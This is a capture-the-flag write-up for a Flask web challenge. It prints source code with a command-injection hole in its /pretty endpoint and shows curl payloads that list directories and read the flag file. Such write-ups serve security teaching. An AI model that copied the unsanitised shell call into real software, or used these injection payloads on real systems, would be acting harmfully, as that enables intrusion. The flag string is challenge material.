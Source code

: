 ```yaml
---
layout: writeup
title: Induction Therapy
tags: WebX
excerpt: "The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon..."
---
```


## Description

The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon...


http://redac.ted:9001/

We were also then given the source code

## Solution

Here is the app.py for this challenge:

```python
from flask import Flask, request, render_template  # update import
import subprocess

app = Flask(__name__)

# Gotta serve something to the public, right?
@app.route("/")
def index():
    return render_template("index.html")

@app.route('/candidates')
def candidates():
    return render_template('candidates.html')

@app.route('/policies')
def policies():
    return render_template('policies.html')

@app.route('/debate')
def debate():
    return render_template('debate.html')

@app.route("/pretty")
def pretty():
    fmt = request.args.get("format", "")
    try:
        result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
        return f"{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error: {e.output.decode()}", 400
    except Exception as e:
        return f"{str(e)}", 500

@app.route("/subscribe", methods=["POST"])
def subscribe():
    email = request.form.get("email", "")
    print(f"Received subscription request from: {email}")
    return "Subscribed", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)
```

A promosing line in here is:

```python
# ...
@app.route("/pretty")
def pretty():
	fmt = request.args.get("format", "")
	try:
		result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
# ...
```

For those who don't know, `subprocess` is used to execute code in the shell, and they use no sanitisation when getting client input and using it in a code execution. So we can put any code in a query at `/pretty` and therefore execute any code we want as long as the command takes less then 2 seconds to execute. Lets test this.

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';ls;:'"

"<sfi000024v576754>
"<sfi000025v576754>
"<sfi000032v294427>
"<sfi000033v294427>
app.py
templates
```

Let's break down that payload: `';ls;:'` This creates the full command `date + '';ls;:''`

The first first apostrophe is used to escape the already existanct apostropher, the semi colon is used to exeucte another command, and then to escape the last apostrophe gained from the `'{fmt}'`

The colon is used becuase `:''` does nothing, and as such removes the error message having a `''` would cause. So by just putting out command in between `';` and `;:'` we can execute whatever command we want.

Time to find the flag

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';ls%20/;:'"

app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

And there is the flag in the filesystem root directory `/` time to cat it

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';cat%20/flag.txt;:'"

secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}
```

Finally we have the flag: `secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}`
